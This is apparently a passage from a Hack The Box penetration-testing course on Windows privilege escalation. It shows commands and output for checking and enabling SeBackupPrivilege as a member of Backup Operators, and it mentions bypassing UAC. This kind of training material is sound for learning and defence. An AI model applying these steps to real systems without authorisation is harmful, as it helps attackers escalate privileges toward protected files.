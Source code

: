 #### Verifying SeBackupPrivilege is Enabled

Let's check if `SeBackupPrivilege` is enabled by invoking `whoami /priv` or `Get-SeBackupPrivilege` cmdlet. If the privilege is disabled, we can enable it with `Set-SeBackupPrivilege`.

Note: Based on the server's settings, it might be required to spawn an elevated CMD prompt to bypass UAC and have this privilege.

Windows Built-in Groups

```powershell-session
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Windows Built-in Groups

```powershell-session
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is disabled
```

#### Enabling SeBackupPrivilege

If the privilege is disabled, we can enable it with `Set-SeBackupPrivilege`.

Windows Built-in Groups

```powershell-session
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

Windows Built-in Groups

```powershell-session
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
